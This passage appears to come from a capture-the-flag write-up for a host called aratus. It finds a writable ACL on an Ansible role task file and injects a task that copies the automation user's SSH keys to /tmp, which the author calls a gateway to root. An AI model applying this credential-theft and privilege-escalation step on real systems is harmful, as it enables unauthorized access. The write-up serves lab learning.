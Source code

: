 ```
-rw-rw-r--. 1 automation automation 8384 Dec  2  2021 README.md
drwxr-xr-x. 2 automation automation  228 Dec  2  2021 tasks
drwxr-xr-x. 2 automation automation   28 Dec  2  2021 templates
drwxr-xr-x. 2 automation automation  142 Dec  2  2021 vars
-rw-rw-r--. 1 automation automation  121 Dec  2  2021 .yamllint

[theodore@aratus ansible]$ ls -la roles/geerlingguy.apache/tasks/
total 36
drwxr-xr-x. 2 automation automation  228 Dec  2  2021 .
drwxr-xr-x. 9 automation automation  178 Dec  2  2021 ..
-rw-rw-r--. 1 automation automation 1693 Dec  2  2021 configure-Debian.yml
-rw-rw-r--+ 1 automation automation 1123 Dec  2  2021 configure-RedHat.yml
-rw-rw-r--. 1 automation automation  546 Dec  2  2021 configure-Solaris.yml
-rw-rw-r--. 1 automation automation  711 Dec  2  2021 configure-Suse.yml
-rw-rw-r--. 1 automation automation 1388 Dec  2  2021 main.yml
-rw-rw-r--. 1 automation automation  193 Dec  2  2021 setup-Debian.yml
-rw-rw-r--. 1 automation automation  198 Dec  2  2021 setup-RedHat.yml
-rw-rw-r--. 1 automation automation  134 Dec  2  2021 setup-Solaris.yml
-rw-rw-r--. 1 automation automation  133 Dec  2  2021 setup-Suse.yml
```

As seen, we got `+` on `configure-RedHat.yml`, since it is at the end of the permissions, we know we are dealing with an `ACL`, That’s the system’s way of saying: there are _extra_ permissions on top of the usual `rw-rw-r--.`, we can use `getfacl` to check the extra rights:

```
[theodore@aratus ansible]$ getfacl roles/geerlingguy.apache/tasks/configure-RedHat.yml
# file: roles/geerlingguy.apache/tasks/configure-RedHat.yml
# owner: automation
# group: automation
user::rw-
user:theodore:rw-
group::rw-
mask::rw-
other::r--
```

Nice, based on that we know we can edit and inject malicious tasks into that file, this is our gateway into root, we can copy the ID_RSA key:

```
mkdir /tmp/key

# Then, use VI:


- name: Copy ssh key.
  copy:
    src: "/home/automation/.ssh/"
    dest: "/tmp/key/"

sudo -u automation /opt/scripts/infra_as_code.sh
```
